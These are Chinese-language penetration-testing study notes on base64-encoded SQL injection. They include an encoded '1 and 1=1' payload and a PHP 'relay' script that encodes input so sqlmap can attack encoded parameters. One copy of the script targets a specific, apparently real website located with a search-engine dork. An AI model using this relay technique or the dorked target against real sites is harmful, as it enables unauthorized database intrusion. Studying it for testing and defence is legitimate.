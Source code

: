 ![](https://img.yatjay.top/md/202203251649092.png)

# 涉及知识

## 加解密注入

### 定义

提交的参数采用了base64等加密方式将数据进行加密，再通过参数传递给服务器

### 举例

对于  www.xxx.com/index.php?id=MQ==

- 加密部分：MQ==

- 解密结果：id=MQ==相当于id=1

对于   base64加密结果：MSBhbmQgMT0x

则提交语句为：www.xxx.com/index.php?id=MSBhbmQgMT0x

### 附：中转注入

比如受害者网站URL注入点是经过编码的，不能直接结合sqlmap进行漏洞利用，所以本地搭建一个网站，写一个php脚本编码文件，就可以结合sqlmap工具进行测试。因为，注入点经过复杂编码之后，就不能直接结合sqlmap进行漏洞攻击了。或者sqlmap自己编写tamper脚本进行攻击

以SQL加解密注入为例，如果我们所使用的工具不提供加密模块(burp和sqlmap都是提供加密模块的)，就需要自己编写脚本实现提交参数的加密工作。脚本的目的是当提交明文数据时先把明文发送到中转文件进行加密操作，然后再发送请求

#### 中转注入示例代码

```php
<?php
$url='http://xxxx/job_bystjb/yjs_byszjs.asp?id=';  //声明url
$payload=base64_encode($_GET['x']); //对GET方法提交的数据x进行加密
echo $payload;  //输出加密后的待提交参数
$urls=$url.$payload;  //连接两个字符串
file_get_contents($urls);//file_get_contents()将整个文件读入一个字符串，此处即意思是访问$urls，获取其中的内容
echo $urls;
?>
```

#### 示例

搜索引擎搜索：inurl:id=MQ==

地址：http://www.techen.cn/about_us.php?ID=MQ==

以下文件名：www/test.php

```php
<?php
$url='http://www.techen.cn/about_us.php?ID=';
$payload=base64_encode($_GET['x']);
echo $payload;
$urls=$url.$payload;
file_get_contents($urls);//请求拼接后的地址
echo $urls;
?>
```
